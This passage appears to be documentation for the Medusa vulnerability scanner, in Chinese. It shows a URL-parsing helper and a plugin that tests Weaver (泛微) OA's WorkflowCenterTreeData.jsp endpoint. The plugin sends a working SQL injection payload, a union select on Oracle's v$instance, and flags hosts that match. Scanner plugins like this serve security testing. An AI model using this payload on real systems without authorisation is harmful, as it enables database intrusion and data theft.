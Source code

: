 函数对各个部分进行处理，最终我们只需要取得``` scheme``` ,``` port``` , ``` hostname``` 的值返回给调用函数就行

该函数在2.7插件版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url,RandomAgent,ProxyIp):
    scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    global resp
    global resp2
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url +":"+ str(port)+ payload
        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }
        s = requests.session()
        resp = s.post(payload_url,
                      data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                            'v$instance order by (((1'},
                      headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.find('''"draggable":''') != -1 and con.find(
                '''"checked":''') != -1 and con.find('''"id":''') != -1 and con.find(
                '''"text":''') != -1:
            Medusa = "{}存在泛微OA_WorkflowCenterTreeData接口注入漏洞\r\n 验证数据:\r\nUrl:{}\r\nPayload:{}\r\n".format(url,payload_url,resp.headers)
            _t=VulnerabilityInfo(Medusa)
            web=ClassCongregation.VulnerabilityDetails(_t.info)
            web.High() # serious表示严重，High表示高危，Intermediate表示中危，Low表示低危
            return (str(_t.info))
    except Exception:
        _ = VulnerabilityInfo('').info.get('algroup')
        _l = ClassCongregation.ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
```
